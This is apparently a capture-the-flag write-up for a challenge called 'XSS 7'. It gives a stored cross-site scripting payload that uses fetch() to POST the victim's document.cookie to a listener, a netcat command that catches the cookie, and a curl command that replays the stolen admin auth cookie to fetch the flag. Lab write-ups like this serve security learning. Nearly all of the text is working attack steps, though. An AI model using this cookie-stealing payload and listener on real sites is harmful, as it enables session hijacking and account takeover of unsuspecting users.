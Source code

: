 # XSS 7

#### The challenge itself is straight forward, however, achieving it was difficult without knowing how to capture cookies in POST and use them properly.
#### First run the server, login and publish this:
```
<script>fetch("http://challenge.localhost:1337", {method: 'POST', body: document.cookie, method: 'no-cors'})</script>
```

---------------------------------------
#### Use 1337 for the port as this is the port netcat will listen to:

```nc -v -l challenge.localhost 1337```

-----------------------------------------
#### It will return a cookie to which curl will return the flag:
```curl -b "auth=admin|.QXygTN2wyMzYDOzEzW}" http://challenge.localhost```
